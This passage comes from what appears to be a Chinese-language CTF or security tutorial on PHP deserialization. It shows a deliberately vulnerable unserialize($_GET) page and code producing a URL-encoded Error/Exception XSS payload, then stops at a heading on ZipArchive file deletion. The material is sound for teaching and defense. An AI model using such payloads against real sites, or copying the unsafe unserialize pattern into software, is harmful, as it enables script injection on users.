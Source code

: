 使用get传入vip的参数即可。然后访问flag.txt就可以得到flag了。此处无报错，即是成功。

[![](https://p1.ssl.qhimg.com/t013f2c91895d7eec1e.png)](https://p1.ssl.qhimg.com/t013f2c91895d7eec1e.png)



## 使用 Error/Exception 内置类来构造 XSS。

```
#index.php
&lt;?php
$a = unserialize($_GET['whoami']);
echo $a;
?&gt;
```

`Error`类是php的一个内置类，用于自动自定义一个`Error`，在`php7`的环境下可能会造成一个xss漏洞，因为它内置有一个 `__toString()` 的方法，常用于PHP 反序列化中。

```
&lt;?php
$a = new Error("&lt;script&gt;alert('xss')&lt;/script&gt;");
$b = serialize($a);
echo urlencode($b);  
?&gt;
#output:
O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A30%3A%22%3Cscript%3Ealert%28%27test%27%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A30%3A%22D%3A%5CphpStudy%5CWWW%5Cm0re%5Cindex.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D
```

[![](https://p5.ssl.qhimg.com/t011e66fea7a791014c.png)](https://p5.ssl.qhimg.com/t011e66fea7a791014c.png)

另一种，`Exception` 内置类，与上述类似，只是换了一个类，将`Error`换成了`Exception`

```
&lt;?php
$x = new Exception("&lt;script&gt;alert('xss')&lt;/script&gt;");
$y = serialize($x);
echo urlencode($y);  
?&gt;
```

其它与上述相同。



## 实例化任意类

### <a class="reference-link" name="ZipArchive::open%20%E5%88%A0%E9%99%A4%E6%96%87%E4%BB%B6"></a>ZipArchive::open 删除文件

使用条件：open参数可控。
